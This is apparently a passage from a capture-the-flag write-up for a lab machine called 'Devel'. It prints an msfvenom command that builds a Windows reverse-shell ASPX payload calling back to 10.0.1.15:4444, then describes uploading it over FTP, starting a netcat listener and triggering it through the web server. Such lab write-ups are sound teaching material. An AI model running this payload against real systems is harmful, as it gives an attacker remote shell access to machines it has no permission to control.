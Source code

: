 We can generate the payload with the following command:

```python
msfvenom -p windows/shell_reverse_tcp -f aspx LHOST=10.0.1.15 LPORT=4444 -o reverse-shell.aspx
```

![Devel%20059f906f6e9a4909b31c6d48b5e47256/Untitled%206.png](Devel%20059f906f6e9a4909b31c6d48b5e47256/Untitled%206.png)

Now, we upload the generated payload onto the FTP server and check that it is uploaded:

![Devel%20059f906f6e9a4909b31c6d48b5e47256/Untitled%207.png](Devel%20059f906f6e9a4909b31c6d48b5e47256/Untitled%207.png)

We can then start a netcat listener and run our payload by heading to http://10.0.1.15/reverse-shell.aspx:

![Devel%20059f906f6e9a4909b31c6d48b5e47256/Untitled%208.png](Devel%20059f906f6e9a4909b31c6d48b5e47256/Untitled%208.png)
